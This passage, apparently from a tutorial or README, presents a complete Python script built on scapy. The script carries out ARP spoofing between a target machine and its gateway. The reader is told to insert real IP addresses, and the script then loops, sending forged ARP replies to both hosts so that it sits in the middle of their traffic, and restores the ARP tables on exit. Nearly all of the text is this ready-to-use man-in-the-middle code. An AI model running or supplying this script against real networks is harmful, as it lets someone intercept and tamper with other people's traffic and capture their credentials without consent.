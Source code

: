 Now that the environment is set up use the code below and replace your target's and gateway's IP

```python

#!/usr/bin/python

import time
import scapy.all as scapy

def get_mac_address(ip):
    if not ip:
        print("No input given. Exiting program")
        exit()
    try:
        arp_request = scapy.ARP(pdst=ip)
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
        arp_request_broadcast = broadcast/arp_request
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]

        return answered_list[0][1].hwsrc
    except IndexError:
        print("Index out of bound exception found")


def restore(source_ip, destination_ip):
    source_mac = get_mac_address(source_ip)
    destination_mac = get_mac_address(destination_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)


def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=get_mac_address(target_ip), psrc=spoof_ip)
    scapy.send(packet, verbose=False)


if __name__ == "__main__":

    target_ip = "REPLACE_WITH_YOUR_IP"
    gateway_ip = "REPLACE_WITH_YOUR_IP"
    packet_counter = 0
    try:
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            packet_counter = packet_counter + 2
            print("\rNumber of packets sent are " + str(packet_counter), end="")
            time.sleep(2)
    except KeyboardInterrupt:
        print("\nExiting program and restoring IP")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
        print("Restoring done!")

```
